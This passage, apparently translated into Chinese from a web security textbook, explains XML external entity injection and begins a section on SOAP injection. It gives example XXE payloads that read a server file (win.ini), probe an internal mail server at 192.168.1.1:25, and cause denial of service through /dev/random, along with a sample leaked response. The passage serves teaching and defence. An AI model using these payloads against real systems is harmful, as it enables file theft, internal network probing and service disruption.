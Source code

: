 此外，XML规范允许使用外部引用来定义实体，外部引用的值由XML解析器动态获取。 这些外部实体定义使用URL格式，并且可以引用本地文件系统上的外部Web URL或资源。 XML解析器获取指定的URL或文件的内容，并将其用作所定义实体的值。 如果应用程序在响应中返回使用外部定义的实体的XML数据的任何部分，则响应中将返回指定文件或URL的内容。

可以通过在攻击者基于XML的请求中指定外部实体，方法是在XML中添加合适的`DOCTYPE`元素（或者如果该元素已经存在，则可以对其进行修改）。 外部实体引用是使用`SYSTEM`关键字指定的，其定义是可以使用`file:`协议的URL。

在前面的示例中，攻击者可以提交以下请求，该请求定义了引用服务器文件系统上文件的XML外部实体：
```
POST /search/128/AjaxSearch.ashx HTTP/1.1
Host: mdsec.net
Content-Type: text/xml; charset=UTF-8
Content-Length: 115

<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///windows/win.ini" > ]>
<Search><SearchTerm>&xxe;</SearchTerm></Search>
```
这导致XML解析器获取指定文件的内容，并使用它代替攻击者在`SearchTerm`元素中使用的定义的实体引用。 由于此元素的值在应用程序的响应中回显，因此导致服务器使用文件的内容进行响应，如下所示：
```
HTTP/1.1 200 OK
Content-Type: text/xml; charset=utf-8
Content-Length: 556

<Search><SearchResult>No results found for expression: ; for 16-bit app
support
 [fonts]
 [extensions]
 [mci extensions]
 [files]
...
```
除了使用`file:`协议在本地文件系统上指定资源外，攻击者还可以使用诸如`http:`的协议来使服务器跨网络获取资源。 这些URL可以指定任意主机，IP地址和端口。 它们可能允许攻击者与无法从Internet直接访问的后端系统上的网络服务进行交互。 例如，以下攻击尝试连接到在私有IP地址192.168.1.1的端口25上运行的邮件服务器：
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://192.168.1.1:25" > ]>
<Search><SearchTerm>&xxe;</SearchTerm></Search>
```
此技术可能允许执行各种攻击：
- 攻击者可以将应用程序用作代理，从应用程序可以访问的任何Web服务器中检索敏感内容，包括在组织内部内部运行的，不可路由的私有地址空间上的敏感内容。
- 攻击者可以利用后端Web应用程序上的漏洞，前提是可以通过URL利用这些漏洞。
- 攻击者可以通过循环访问大量IP地址和端口号来测试后端系统上的开放端口。 在某些情况下，时序差异可用于推断请求端口的状态。 在其他情况下，某些服务的服务横幅实际上可能会在应用程序的响应中返回。

最后，如果应用程序检索了外部实体，但未在响应中返回此外部实体，则仍然可能会通过无限期地读取文件流而导致拒绝服务。 例如：
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM " file:///dev/random"> ]>
```

# 2.注入SOAP服务(Injecting into SOAP Services)

简单对象访问协议（SOAP）是一种基于消息的通信技术，使用XML格式封装数据。 即使它们运行在不同的操作系统和体系结构上，它也可以用于在系统之间共享信息和传输消息。 它的主要用途是在Web服务中。 在浏览器访问的Web应用程序的上下文中，您很可能在后端应用程序组件之间发生的通信中遇到SOAP。

SOAP通常用于大型企业应用程序中，其中不同计算机执行单独的任务以提高性能。 还经常发现在哪里将Web应用程序部署为现有应用程序的前端。 在这种情况下，可以使用SOAP来实现不同组件之间的通信，以确保模块化和互操作性。
